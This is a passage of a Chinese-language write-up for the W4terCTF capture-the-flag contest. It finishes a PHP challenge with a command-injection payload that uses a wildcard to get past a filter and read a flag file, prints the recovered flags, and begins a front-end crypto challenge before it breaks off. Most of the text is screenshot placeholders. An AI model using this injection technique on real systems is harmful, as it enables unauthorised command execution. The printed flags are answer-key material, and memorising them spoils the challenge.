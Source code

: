 ![微信图片_20250504140529](微信图片_20250504140529.png)



再配合通配符绕过一下

```payload
?file=/tmp/evil&cmd=cat /tmp/f*lag2.txt
```

![微信图片_20250504140829](微信图片_20250504140829.png)

```
Flag_piece2: _The_SA1E57_IaN9Ua63_in_tH3_wOr1D?_3nJoyyy_1t!}
```

```
Flag: W4terCTF{i5_pHp_The_SA1E57_IaN9Ua63_in_tH3_wOr1D?_3nJoyyy_1t!}
```



##  Front End

密码的web题

![微信图片_20250504155416](微信图片_20250504155416.png)



base64编码

![微信图片_20250504155524](微信图片_20250504155524.png)

![微信图片_20250504155559](微信图片_20250504155559.png)



打开 /hint.html

![微信图片_20250504155659](微信图片_20250504155659.png)



看到注释——JavaScript 混淆表达式。在控制台运行一下，得到encode.php

![微信图片_20250504155944](微信图片_20250504155944.png)



来到密码的部分

根据

![微信图片_20250504160243](微信图片_20250504160243.png)

这一部分的判断逻辑，如果变量 rand 等于0 就输出加密后的内容。

根据 rand 的定义，传递参数 r = 1537101982

得到了调用两次encrypt的加密结果：
